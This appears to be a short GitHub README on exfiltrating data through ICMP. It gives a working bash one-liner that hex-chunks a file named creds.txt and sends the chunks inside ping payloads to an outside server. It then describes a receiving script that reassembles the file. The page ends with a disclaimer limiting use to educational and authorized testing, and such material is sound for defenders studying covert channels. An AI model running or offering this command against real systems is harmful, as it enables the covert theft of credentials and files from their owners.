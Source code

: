 # Data Exfiltration via ICMP

Step 1 )> Run the following command on the client server from linux command line to read the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />


**Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.**
